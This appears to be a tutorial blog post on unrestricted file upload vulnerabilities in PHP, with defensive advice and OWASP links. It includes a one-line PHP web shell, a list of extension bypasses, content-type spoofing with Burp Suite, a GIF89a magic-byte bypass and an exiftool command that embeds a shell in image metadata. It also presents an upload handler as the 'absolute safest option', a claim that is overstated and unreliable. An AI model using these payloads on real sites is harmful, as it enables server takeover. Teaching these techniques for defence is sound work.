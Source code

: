# Website Vulnerabilities - Unrestricted File Upload
> December 23rd, 2024
----------------------------------------------------------

Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.

The consequences of unrestricted file upload can vary, including complete system takeover, an overloaded file system or database, forwarding attacks to back-end systems, client-side attacks, or simple defacement. It depends on what the application does with the uploaded file and especially where it is stored.

There are really two classes of problems here. The first is with the file metadata, like the path and file name. These are generally provided by the transport, such as HTTP multi-part encoding. This data may trick the application into overwriting a critical file or storing the file in a bad location. You must validate the metadata extremely carefully before using it.

The other class of problem is with the file size or content. The range of problems here depends entirely on what the file is used for. See the examples below for some ideas about how files might be misused. To protect against this type of attack, you should analyse everything your application does with files and think carefully about what processing and interpreters are involved.

**PHP Extensions**

```
.php
.php3
.php4
.phpt
.pht
.phtml
.jpeg.php
.jpg.php
.phar
.pgif
.png.php
etc...
```

```php
<?php
	system($_GET['cmd']);
?>
```

Examples of vulnerable code and how to exploit them:

```php
 <?php
    if (isset($_POST['Upload'])) {

            $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
            $target_path = $target_path . basename( $_FILES['uploaded']['name']);

            if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {
                
                echo '<pre>';
                echo 'Your image was not uploaded.';
                echo '</pre>';
                
              } else {
            
                echo '<pre>';
                echo $target_path . ' succesfully uploaded!';
                echo '</pre>';
                
            }

        }
?> 
```

This code is vulnerable because it doesn't do any checks on the file type at all. Therefore, we can upload any files we want, including a php backdoor.

Example 2:

```php
 <?php
    if (isset($_POST['Upload'])) {

            $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
            $target_path = $target_path . basename($_FILES['uploaded']['name']);
            $uploaded_name = $_FILES['uploaded']['name'];
            $uploaded_type = $_FILES['uploaded']['type'];
            $uploaded_size = $_FILES['uploaded']['size'];

            if (($uploaded_type == "image/jpeg") && ($uploaded_size < 100000)){


                if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {
                
                    echo '<pre>';
                    echo 'Your image was not uploaded.';
                    echo '</pre>';
                    
                  } else {
                
                    echo '<pre>';
                    echo $target_path . ' succesfully uploaded!';
                    echo '</pre>';
                    
                    }
            }
            else{
                echo '<pre>Your image was not uploaded.</pre>';
            }
        }
?> 
```

This code is still vulnerable due to the fact that we can manipulate the content-type header using Burp Suite. When we intercept requests with Burp Suite, when we upload that file, we can change the `content-type` into whatever we want. If you don't believe this, try it out! 

```html
<!DOCTYPE html>
<html>
<body>

<form action="upload.php" method="post" enctype="multipart/form-data">
  <p>Select image to upload:</p>
  <input type="file" name="fileToUpload" id="file">
  <input type="submit" value="Upload Image" name="submit">
</form>

</body>
</html>

```

```php
<?php
	if (isset($_POST['submit'])) {
		$fileType = $_FILES['file']['type'];
		echo $fileType;
	}
?>
```

Manipulate the `content-type` tag to anything you want.

Now let's get back on track, we can manipulate this by changing the `content-type` tag to `image/jpeg` or `image/png` or `image/gif`

You will then see we are able to successfully upload our PHP Backdoor

If you want the absolute safest option of uploading files, here's how you do it:

```php
<?php
	$target_dir = "uploads/";
	$target_file = $target_dir . basename($_FILES["fileToUpload"]["tmp_name"]);

	if (isset($_POST["submit"])) {
        $file = $_FILES["fileToUpload"];

        $fileName = $_FILES["fileToUpload"]["name"];
        $fileTmpName = $_FILES["fileToUpload"]["tmp_name"];
        $fileSize = $_FILES["fileToUpload"]["size"];
        $fileError = $_FILES["fileToUpload"]["error"];
        $fileType = $_FILES["fileToUpload"]["type"];

	    $fileExt = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));

        $allowed_ext = array('jpg', 'jpeg', 'png');

        $allowed_mime = array('image/png', 'image/jpeg');
        
        $get_mime = mime_content_type($_FILES["fileToUpload"]["tmp_name"]);

        if (!in_array($get_mime, $allowed_mime)) {
            echo "Invalid MIME";
            return;
        }

        if (!in_array($fileExt, $allowed_ext)) {
            echo "You can't upload file of this type";
            return;
        }

        if ($fileError !== 0) {
            echo "There was an error uploading your file";
            return;
        }

        if ($fileSize > 100000) {
            echo "Your file is too big";
            return;
        }

        $succUpload = move_uploaded_file($fileTmpName, $target_file);

        if ($succUpload) {
            echo "Successful file upload"; 
        } else {
            echo "Unsuccessful file upload";
            return;
        }
    } else {
        header("Location: /index.php?message=Enter submit button");
    }
?>
```

The reason why this is the safest option is because we are actually checking the file extension and MIME type using **mime_content_type()** function.

You can additionally move the file to outside the web directory or give the file a unique ID using uniqid() function. Additionally, make sure the permissions for the file is `664`, or permissions that won't give executable permission.

You can also check if a file with the same filename exists, and if it does, return an error. 

## GIF89a;

If they check the content. Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```php
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## Secrets in Images

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

```bash
mv lo.jpg lo.php.jpg
```

**Resources**
- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
